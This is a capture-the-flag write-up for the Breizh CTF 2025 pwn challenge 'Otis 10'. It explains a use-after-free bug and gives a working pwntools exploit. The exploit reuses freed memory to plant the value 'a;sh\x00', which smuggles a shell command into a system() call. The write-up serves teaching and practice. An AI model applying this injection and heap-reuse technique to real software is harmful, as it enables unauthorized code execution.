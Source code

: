 ```yaml
---
title: "Breizh CTF 2025 - Otis 10"
date: 2025-04-14
tags: ["use-after-free", "heap-exploitation"]
categories: ["pwn"]
ctfs: ["breizh-ctf"]
---
```


# Otis 10 - Breizh CTF 2025

## Challenge Description

Otis 10 is a Pwn challenge from Breizh CTF 2025. The binary simulates a transformation system between a cow and other creatures, and contains a classic Use-After-Free (UAF) vulnerability.

## Binary Analysis

The binary provides a menu with the following options:
- `n`: Create a new creature (allocates a new structure)
- `v`: Transform back into a cow (frees the creature)
- `m`: Moo! (allocates a message buffer and lets you input data)
- `r`: Roaaar! (calls `system()` with a command based on the creature's name)
- `q`: Quit

The relevant structure is:

```c
typedef struct {
    char msg[32];
    char name[64];
} creature_t;
```

The vulnerability arises because after freeing the `creature` pointer, it is not set to NULL. This allows a classic UAF scenario if a new allocation reuses the freed memory.

## Vulnerability

The exploitation flow is as follows:
1. Create a new creature (`n`), which allocates a `creature_t` structure.
2. Free the creature (`v`), but the pointer is not set to NULL.
3. Use the `m` option, which allocates a 96-byte buffer (same size as `creature_t`) and lets you input data. This allocation can reuse the freed memory.
4. The `r` option calls `system()` with a command that includes the creature's name, which is now under your control.

## Exploitation

The following exploit script demonstrates the attack:

```python
#!/usr/bin/env python3
from pwn import *

exe = "./otis_10"
context.binary = exe
context.terminal = ["kitty", "-e"]

def start():
    if args.GDB:
        return gdb.debug(exe, gdbscript="b main\nc")
    else:
        return process(exe)


def exploit(p):
    p.sendlineafter(b">", b"n")

    p.sendlineafter(b">", b"v")

    
    p.sendlineafter(b">", b"m")
    p.recvuntil(b"Message :")

    msg = b"A" * 32
    name = b"a;sh\x00"  
    payload = msg + name
    payload = payload.ljust(96, b"A")  

    p.sendline(payload)

    
    p.sendlineafter(b">", b"r")

    
    p.interactive()


if __name__ == "__main__":
    p = start()
    exploit(p)
```

### Exploit Explanation

- The exploit abuses the UAF by freeing the creature and then reallocating the same memory with controlled data.
- The `name` field is set to `a;sh\x00`, so when `system()` is called, the command becomes `echo 'Roarrr !' | /usr/games/cowsay -f a;sh`, which executes `sh` after the cowsay command fails.
- This results in a shell, allowing you to read the flag.

## Flag

Once the shell is obtained, you can retrieve the flag with:

```
$ cat flag.txt
BZHCTF{I_dont_have_this_flag_anymore}
``` 